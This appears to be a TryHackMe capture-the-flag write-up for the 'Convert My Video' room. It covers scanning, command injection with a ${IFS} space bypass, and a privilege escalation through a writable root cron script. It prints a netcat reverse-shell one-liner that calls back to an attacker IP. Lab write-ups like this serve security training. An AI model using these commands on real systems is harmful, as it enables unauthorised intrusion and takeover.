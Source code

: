 ```yaml
---
layout: post
title: "Convert My Video"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [security, web, ctf, challenge]
image: ../../assets/img/posts/ConvertMyVideo.png 

---
```


## Description

Penetration Testing Challenge.

|**Room**|[Internal](https://tryhackme.com/room/convertmyvideo)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[overjt](https://tryhackme.com/p/overjt)|

---

After deploying, we'll start with nmap scan,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.10.222.32
```

![image](https://user-images.githubusercontent.com/67465230/164979815-b3b03a39-3af5-456d-b9f0-9f58e1aa46f7.png)

We can see that 2 ports 22 (SSH) and 80 (HTTP) are open.

Let's visit http://10.10.222.32/,

![image](https://user-images.githubusercontent.com/67465230/164979819-4706dd39-296a-4607-8be8-f2a637a4fec4.png)

Looks like this is a sort of conversion site where one can convert video to mp3 and vice versa.

Now, let's brute force directories using gobuster tool,

```bash
gobuster dir -u http://10.10.222.32/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x php,txt -q 2>/dev/null
``` 

![image](https://user-images.githubusercontent.com/67465230/164979820-c7b6f276-17f4-4e93-9ee6-a90cc9c052da.png)

We can see that it has **/admin** as secret directory. Now, we'll visit to admin path, this window poppup will occur,

![image](https://user-images.githubusercontent.com/67465230/164979821-917162c3-a141-4a00-990c-086f16a06748.png)

It wants us to give username and password to get authenticated. We don't have credentials. So it'll give this message,

![image](https://user-images.githubusercontent.com/67465230/164979823-5932ef68-e8d5-4491-bb9b-68dae1ca1c9f.png)

Now, we'll look for another method. 

Let's try to give some input in search tab on main page and we'll intercept the request using burpsuite,

![image](https://user-images.githubusercontent.com/67465230/164979833-c7189fec-17fa-48d8-b909-e6f78bdedfa6.png)

now, let's intercept request and send this to repeater,

![image](https://user-images.githubusercontent.com/67465230/164979839-07ad33d2-5dd9-4261-b3d7-8ab107d94cdc.png)

Repeater will give response to this request as much we'll modify this request,

![image](https://user-images.githubusercontent.com/67465230/164979842-ef558664-3b78-4984-af31-6ce84731f511.png)

It gives normal error message contain warning. Let's try another search but this time, we'll provide a number,

![image](https://user-images.githubusercontent.com/67465230/164979846-7b0abf2a-9115-4b02-b26a-fafc23121e87.png)

This time we'll provide number to see what happens,

![image](https://user-images.githubusercontent.com/67465230/164979849-afa3887c-60ee-4a9a-86b3-bcdd06cad59e.png)

we get different error this time. That means this is **OS Command Execution** vulnerability. 

Try to inject some commands in between **backticks** to see what we got as response but we don't get a response that we want instead, we'll get error. But when we type man command in between backticks, 

![image](https://user-images.githubusercontent.com/67465230/164979853-19a0bff7-48e1-4edc-8ec6-b17c744548f0.png)

We'll get this output,

![image](https://user-images.githubusercontent.com/67465230/164979856-d5961246-d5be-4b08-8993-cf5db1e308fd.png)

We got different response and "What manual page do you want" depicts that we've OS command execution vulnerability.

We'll try to get a netcat reverse shell using one-liner, the issue is that the command has some symbols in it that would actually break the injection,

![image](https://user-images.githubusercontent.com/67465230/164979859-c925791d-1f51-4e92-9a04-a4fe0f464a96.png)

So to prevent that, I've put this reverse shell into file called nc_shell on my local system,

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.189.151 4444 >/tmp/f
```

![image](https://user-images.githubusercontent.com/67465230/164979864-030dd639-7510-496c-82a4-b3957d539880.png)

and we'll upload this file using **wget**.

Starting python server to upload shell on machine, `python3 -m http.server` and type this syntax to upload the shell using **wget** command and make sure to replace " " with **"${IFS} "**  otherwise injection will break.

![image](https://user-images.githubusercontent.com/67465230/164979871-b555ee1f-f925-4842-aeaa-6b7420930ff1.png)

we'll get a response like this after uploading shell,

![image](https://user-images.githubusercontent.com/67465230/164979876-c4a11228-08a5-46a8-843f-58bbb7f22720.png)

Now, we'll start netcat listener on our machine, `nc -nvlp 4444` and now we'll execute the uploaded shell on burp,

![image](https://user-images.githubusercontent.com/67465230/164979880-63442333-5398-4500-ad2e-6fc4d2b5d11e.png)

after sending request, we'll get a reverse connection back on netcat listener.

![image](https://user-images.githubusercontent.com/67465230/164979884-529baa27-2fe9-4cfe-aefa-7a767a9e036e.png)

we're www-data user. That means we have shell.

we'll improve shell functionality,

```/bash
bin/bash -i
```

![image](https://user-images.githubusercontent.com/67465230/164979886-af2ebfa4-5c2a-4d4f-a5fb-0fa2a45ab0d3.png)

after doing ls we'll find that there are many directories present. And there's an **admin** directory present. Let's navigate to that and enumerating it,

![image](https://user-images.githubusercontent.com/67465230/164979889-62b93eaf-bc86-43d4-b87b-7ecba9be47c3.png)

let's view the content of htpasswd file,

![image](https://user-images.githubusercontent.com/67465230/164979892-ae2aad57-8633-4f0c-87ec-090602c5d68a.png)

Seems like these are creds for something. After tried everything, we can't crack this password.

Now, we've to do privilege escalation here. For this, we'll upload **pspy64s** file to monitor linux processes. 

![image](https://user-images.githubusercontent.com/67465230/164979895-b0f90ca3-efcc-4c66-b554-326286a3dc1b.png)

Now that the pspy64s file has been downloaded, we'll change it's execute permissions,

```bash
chmod +x pspy64s
```

Now, executing file, `./pspy64s` and after waiting sometime, we'll got to know what processes are running on the system,

![image](https://user-images.githubusercontent.com/67465230/164979898-cf8fb960-7e76-49f4-a34e-361dc800f59d.png)

and these are repeating on cycle. I wonder this is the work of CronJobs. 

Let's go to tmp folder,

![image](https://user-images.githubusercontent.com/67465230/164979904-124dfc3e-a7b6-4cc5-b9f5-63cc163b7cd7.png)

we found the binary there. Looks like is a scheduled task and runs frequently as root. It’s a shell file which is scheduled to run regularly as root and ‘www-data’ (current user) is the owner. You can modify the file to do anything you like as root == PrivEsc!

Append file with a command to cat out /root/root.txt and pass output to a file that we can access,

```bash
echo 'cat root/root.txt > root_flag' >> clean.sh
```

Wait for sometime to let the script execute. It tooks a while to get root_flag,

![image](https://user-images.githubusercontent.com/67465230/164979910-f6245668-258b-4f2c-a6c8-872dbff96e6d.png)

and we've our root flag.